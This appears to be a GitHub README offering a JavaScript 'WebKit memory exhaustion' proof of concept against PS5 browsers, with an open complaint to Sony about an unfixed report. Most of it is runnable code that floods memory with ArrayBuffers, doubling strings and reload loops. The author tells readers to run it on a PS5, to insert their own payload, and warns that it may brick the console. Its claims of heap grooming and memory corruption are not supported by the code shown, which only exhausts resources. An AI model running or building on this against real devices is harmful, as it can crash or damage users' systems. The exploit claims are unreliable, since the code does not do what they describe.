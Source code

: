 https://debvt.github.io/Wm/


**Author:https://x.com/idebty?t=MT_ShLOs9wP9hcH3GNtkNA&s=09**
I'm self taught I don't know any one in the community if you want to use this use it but credit me.
# WebKit Memory Leak PoC

## Description
This Proof of Concept (PoC) demonstrates a WebKit memory exhaustion exploit that I have been working on. The current iteration works but still needs to be fully exploited. Below is the JavaScript code that shows how it operates, along with explanations of each step.

## How it Works
The code below follows five key steps:

1. **Heap Initialization**: Allocates memory in a controlled manner.
2. **Heap Grooming**: Manipulates memory to create gaps for the exploit.
3. **Memory Exhaustion**: Continuously allocates and clears memory to exhaust resources.
4. **Payload Execution**: Executes the payload to perform memory corruption.
5. **Exploit Execution**: Runs the steps in sequence to trigger the memory exhaustion.

## Code
```javascript
// Step 1: Initialize Controlled Memory
function initializeHeap() {
    //alert("Int heap");
    let buffers = [];
    for (let i = 0; i < 2048; i++) { // Reduced allocations
        buffers.push(new ArrayBuffer(500000)); // Smaller blocks of memory
    }
    return buffers;
}

// Step 2: Groom the Heap
function groomHeap() {
    //alert("groom heap");
    let tempArray = [];

    // Allocate and deallocate in patterns
    for (let i = 0; i < 2048; i++) { // Reduced iterations
        let buffer = new ArrayBuffer(1000); // Allocate smaller blocks
        tempArray.push(buffer);
    }

    // Deallocate some of the buffers to create holes in the heap
    for (let i = 0; i < 1512; i++) { // Fewer deallocations
        tempArray[i] = null; // Free up space to create holes in the heap
    }

    return tempArray;
}

// Step 3: Memory Exhaustion Function
function memExh() {
    let bufferArray = [];
    for (let i = 0; i < 2048; i++) { // Reduced iterations
        bufferArray.push(new ArrayBuffer(900000)); // Allocate smaller buffers
        if (bufferArray.length > 512) { // Less aggressive clearing
            bufferArray = []; // Clear buffer array to exhaust memory
        }
    }
}

// Step 4: The Exploit Payload Function
function payload() {
    let largeString = "B".repeat(900000); // Smaller initial string
    let obj = {};
    let iterationCount = 0; // Counter to track number of iterations

    while (true) {
        // String concatenation
        largeString += largeString;
        if (largeString.length > 100000000) { // Lower threshold for reset
            largeString = "B".repeat(900000); // Reset string to avoid overflow
        }
        memExh();
        iterationCount++;
        if (iterationCount > 64) break; // Control the number of iterations
    }
}

// Step 5: Perform the Exploit
function performExploit() {
    let controlledBuffers = initializeHeap(); // Initialize the heap
    let groomedHeap = groomHeap(); // Groom the heap
    
    // Start memory corruption
    memExh();

    // Run the payload
    payload();
}

performExploit();
```
##**Instructions**

1. Copy the above code and run it in a Exploitable PS5(Works Untill guess 9.60?) this might not be useful in ps4


2. Be mindful that this is a PoC and should be used for educational purposes only.


3. Further testing is required to fully understand this vulnerability.

4.Place Your Payload in the payload function

Disclaimer

This PoC is for educational purposes only. The author is not responsible for any misuse of this code.
##**IM NOT LIABLE TO ANY DAMAGES CAUSED BY THIS POC OR ANY OTHER USE OF IT THIS CAN BRICK AND MIGHT BRICK YOUR SYSTEM IF LEFT UNEDITED **


**A Message to Sony**


Sony I have reported this and got dismmised and I have provided enough proof plus with that unreleased PoC it's not my fault that even after 6months you didn't fix it I have gave you more then enough to fix this is to hopefully encourage you to fix it 

## heap memory exploit code
```javascript
function memmexh() {
        
        // Simulate allocation of an object
        let obj = { data: "important data" };

        // Reference to the object
        let ref = obj;

        // Simulate freeing the object
        obj = null;

        
    
    }
function ComplexOverflow() {
    let largeString = "A".repeat(1000000); // 1 million A's
    let bufferArray = [];
    let nestedArray = [];
    let obj = {};
    let counter = 0;
    let counterr = 0;

    while (true) {

        
        // String concatenation
        largeString += largeString;
        if (largeString.length > 100000000) {
            largeString = "A".repeat(1000000);
        }

        // Array buffer allocation
        bufferArray.push(new ArrayBuffer(1000000));
        if (bufferArray.length > 1000) {
            bufferArray = [];
        }

        // Nested arrays
        nestedArray.push([]);
        if (nestedArray.length > 1000) {
            nestedArray = [];
        }

 
        counterr++;
        if (counterr >= 100) {
            location.reload();
        }
        // Object property expansion
        obj[counter] = "A".repeat(1000);
        counter++;
        if (counter > 10000000) {
            obj = {};
            counter = 0;
        }
    }
}










let MTestClassesArray = [];

class MTestClass {
    constructor() {}
}

const create_1000_objects = () => {
    let counter = 0;
    memmexh()
    while (true) {
        // Simulate allocation of an object
        let obj = { data: "important data" };

        // Reference to the object
        let ref = obj;


        counter++;
        if (counter >= 500) {
            location.reload();
        }
        for (let i = 0; i < 1000; i++) {
            MTestClassesArray.push(new MTestClass());
        }
        const text = `Total ${MTestClassesArray.length} MTestClass objects created`;
        document.getElementById('divMsg').innerHTML = text;
    }
}
```
